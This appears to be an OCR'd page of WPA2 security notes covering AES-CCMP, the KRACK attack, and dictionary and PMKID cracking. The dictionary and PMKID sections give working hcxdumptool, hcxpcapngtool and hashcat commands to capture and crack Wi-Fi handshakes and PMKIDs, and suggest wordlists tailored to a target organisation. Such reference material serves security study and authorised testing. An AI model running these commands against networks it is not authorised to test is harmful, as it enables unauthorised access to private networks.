## WPA2 Security Analysis

### AES-CCMP Implementation

```bash
# Counter Mode with CBC-MAC Protocol
- AES 128-bit encryption
- CCMP for authentication and integrity
- 48-bit replay counter
- 64-bit MIC (Message Integrity Check)
```

### WPA2 Attack Vectors

#### 1. KRACK Attack (2017)

```bash
# Key Reinstallation Attacks
- Exploits 4-way handshake vulnerabilities
- Forces nonce reuse
- Can decrypt traffic and forge packets
- Affects client implementations
```

#### 2. Dictionary Attacks

```bash
# Enhanced methods for WPA2
hcxpcapngtool -o hash.hc22000 capture.pcapng
hashcat -m 22000 hash.hc22000 rockyou.txt

# GPU acceleration improves speed significantly
# Custom wordlists based on target organization
```

#### 3. PMKID Attack

```bash
# Hashcat PMKID attack
- No 4-way handshake needed
- Requests PMKID from AP
- Offline dictionary attack possible

# Capture PMKID
hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --enable_status=1

# Extract PMKID
hcxpcapngtool -z pmkid.txt pmkid_capture.pcapng

# Crack offline
hashcat -m 16800 pmkid.txt rockyou.txt
```
